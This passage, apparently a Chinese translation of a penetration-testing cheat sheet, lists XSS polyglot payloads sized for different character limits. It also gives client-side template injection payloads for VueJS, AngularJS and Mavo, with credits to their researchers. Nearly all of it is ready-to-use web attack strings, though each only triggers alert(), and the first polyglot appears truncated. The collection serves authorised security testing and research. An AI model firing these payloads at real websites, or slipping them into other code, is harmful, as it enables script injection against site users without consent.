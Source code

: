 ----------------

## XSS Polyglots (聚能器)
我有在使用幾個 XSS polyglots
- 因為有時你只有一定數量的符號可以輸入，需要一個基於 DOM 或 non-DOM 的聚能器
- 不要 100% 依賴這些，有些情況下它們會失敗
  - 但如果你對所有的 data 進行 injection testing，那 polyglots 可以提供不錯的覆蓋率


(這邊有很多特殊符號，markdown 可能無法好好顯示。有需要的話，記得去原文確認正確的範例)  
| # chars | Usage | Polyglots |
| :--- | :--- | :--- |
| 141 | Both | ``javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \"`` |
| 88 | Non-DOM | `"'--></noscript></noembed></template></title></textarea></style><script>alert()</script>` |
| 95 | DOM | `'"--></title></textarea></style></noscript></noembed></template></frameset><svg onload=alert()>` |
| 54 | Non-DOM | `"'>-->*/</noscript></ti tle><script>alert()</script>` |
| 42 | DOM | `"'--></style></script><svg oNload=alert()>` |


提示：
- 通過改變大寫字母和使用 tag-attribute separators，你可以很容易地在這些上面創造出一些變化

----------------

## Frameworks
要攻擊 JS Frameworks，一定要對相關的 templating language 進行研究

VueJS  
V3
```
{{_openBlock.constructor('alert(1)')()}}
```
Credit: [Gareth Heyes, Lewis Ardern & PwnFunction](https://portswigger.net/research/evading-defences-using-vuejs-script-gadgets)

V2
```
{{constructor.constructor('alert(1)')()}}
```
Credit: [Mario Heiderich](https://twitter.com/cure53berlin)

AngularJS
```
{{constructor.constructor('alert(1)')()}}
```
Credit: [Mario Heiderich](https://twitter.com/cure53berlin)
That payload works in most cases, but [this page](https://portswigger.net/research/xss-without-html-client-side-template-injection-with-angularjs) has a bunch of other recommendations.


Mavo
```
[self.alert(1)]
```
```
javascript:alert(1)%252f%252f..%252fcss-images
```
```
[''=''or self.alert(1)]
```
```
[Omglol mod 1 mod self.alert (1) andlol]
```
